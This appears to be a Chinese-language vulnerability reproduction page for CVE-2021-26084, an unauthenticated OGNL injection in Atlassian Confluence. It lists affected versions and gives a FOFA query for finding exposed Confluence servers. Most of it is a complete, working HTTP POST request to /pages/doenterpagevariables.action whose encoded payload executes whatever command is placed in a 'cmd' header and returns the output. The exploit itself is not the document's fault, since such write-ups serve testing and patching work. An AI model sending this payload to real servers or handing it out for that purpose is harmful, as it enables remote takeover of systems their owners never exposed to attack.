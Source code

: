 # Atlassian Confluence doenterpagevariables.action 远程命令执行漏洞 CVE-2021-26084

## 漏洞描述

Atlassian Confluence 存在远程代码执行漏洞，攻击者在无需认证，即可构造恶意请求，造成OGNL表达式注入，从而执行任意代码，控制服务器。

## 漏洞影响

```
Atlassian Atlassian Confluence < 7.4.11
Atlassian Atlassian Confluence < 7.11.6
Atlassian Atlassian Confluence < 7.13.0
Atlassian Atlassian Confluence < 6.13.23
Atlassian Atlassian Confluence < 7.12.5
```

## FOFA

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

登录页面

![image-20220524142010885](./images/202205241420961.png)

发送请求包

```
![1](C:/Users/47236/Desktop/1.png)POST /pages/doenterpagevariables.action HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 599
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=3E654B6F4ADDF325CA2203596BD0115C
cmd: id
    
queryString=%5Cu0027%2B%23%7B%5Cu0022%5Cu0022%5B%5Cu0022class%5Cu0022%5D.forName%28%5Cu0022javax.script.ScriptEngineManager%5Cu0022%29.newInstance%28%29.getEngineByName%28%5Cu0022js%5Cu0022%29.eval%28%5Cu0022var+c%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getRequest%28%29.getHeader%28%5Cu0027cmd%5Cu0027%29%3Bvar+x%3Djava.lang.Runtime.getRuntime%28%29.exec%28c%29%3Bvar+out%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getResponse%28%29.getOutputStream%28%29%3Borg.apache.commons.io.IOUtils.copy%28x.getInputStream%28%29%2Cout%29%3Bout.flush%28%29%3B%5Cu0022%29%7D%2B%5Cu0027
```

![]()![1](./images/202205241420313.png)